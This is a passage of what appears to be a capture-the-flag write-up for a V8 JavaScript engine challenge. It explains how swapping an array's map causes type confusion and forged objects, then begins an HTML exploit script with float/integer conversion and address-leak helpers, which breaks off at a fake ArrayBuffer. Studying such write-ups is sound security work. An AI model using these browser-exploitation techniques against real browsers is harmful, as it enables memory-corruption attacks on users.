 We can trigger UAF code like above, but already said, quite unstable.  

So, it's not a good way and i think this way is not intended solution for this vulnerability.  

The intended solution for this challenge is first one, as i think :)    

V8 Array shape is move from int to double and double to object, these kind of informations are stored in Object's map.  

So, if we modify object's map to other shape, it is easy to trigger type confusion vulnerability.  

For example, if we modify object array's map to unboxed double array's map, we can see all of array's member as double value.

And, if we modify unboxed double array's map to object array's map, double value is regarded as object's pointer, so we can construct fake object easily :)  


```html
    <html>
    <pre id="log"></pre>
    <script>
    
    function print(string) {
      var log = document.getElementById('log');
      if (log) {
        log.innerText += string + '\n';
      }
    }
    
    function gc() { for (let i = 0; i < 0x10; i++) { new ArrayBuffer(0x1000000); } }
    
    var f64 = new Float64Array(1);
    var u32 = new Uint32Array(f64.buffer);
    
    function d2u(v) {
        f64[0] = v;
        return u32;
    }
    
    function u2d(lo, hi) {
        u32[0] = lo;
        u32[1] = hi;
        return f64[0];
    }
    
    function hex(lo, hi) {
        if( lo == 0 ) {
            return ("0x" + hi.toString(16) + "-00000000");
        }
        if( hi == 0 ) {
            return ("0x" + lo.toString(16));
        }
        return ("0x" + hi.toString(16) + "-" + lo.toString(16));
    }
    
    function addr(ll) {
        return ll[0];
    }
    
    let storage = [];
    let obj = {};
    let map_unbox = undefined;
    let map_box = undefined;
    let ab = new ArrayBuffer(0x1000);
    
    let fake_arraybuffer = [
```